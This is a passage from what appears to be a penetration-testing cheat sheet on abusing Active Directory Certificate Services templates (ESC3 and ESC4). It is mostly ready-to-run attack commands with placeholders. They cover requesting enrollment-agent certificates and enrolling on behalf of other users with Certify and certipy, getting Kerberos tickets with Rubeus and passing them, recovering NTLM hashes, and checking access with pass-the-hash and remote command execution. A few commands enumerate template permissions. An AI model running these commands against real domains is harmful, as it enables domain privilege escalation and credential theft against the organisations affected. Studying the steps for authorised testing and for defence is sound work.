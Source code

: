 ````
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

### Linux
#### Request Enrollment Agent Certificate
- Template 1
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE NAME> /user:<USER TO ENROLL> /domain:<DOMAIN>

certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -template <TEMPLATE NAME> -upn <SAMACCOUNTNAME>@<FQDN DOMAIN> -out 'esc3' -debug -EnrollmentAgent-certipy
```

#### Enroll agent on behalf of another user
- Template 2
- Use the original certipy without `/extensionsid`
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -template <TEMPLATE NAME> --on-behalf-of <DOMAIN>\<USER> -pfx '<PATH TO esc3.pfx>' -out 'esc3_admin' -timeout 30 -debug
```

#### Unpac the hash
```
certipy auth -pfx 'esc1.pfx'
```

#### Check access
```
cme smb <FQDN> -u <USER> -H <NTLM HASH>
```

### ESC4 Template ACEs
- Abuse ACL's on the template and then abuse ESC1, ESC2 or ESC3
- Requirements
	- User with  `Object Control Permissions` ACL `Owner`, `FullControl`, `WriteOwner`, `WriteDacl` or `WriteProperty`

### Windows
#### Enumerate ACLs for users
```
.\Certify.exe pkiobjects
```

#### Enumerate templates and ACL's
- Shows `Object Control Permissions`
```
Certify.exe find /showAllPermissions
```

#### Enumerate ACLs specific template
- https://github.com/FuzzySecurity/StandIn
```
.\StandIn_v13_Net45.exe --ADCS --filter <TEMPLATE NAME>
```

````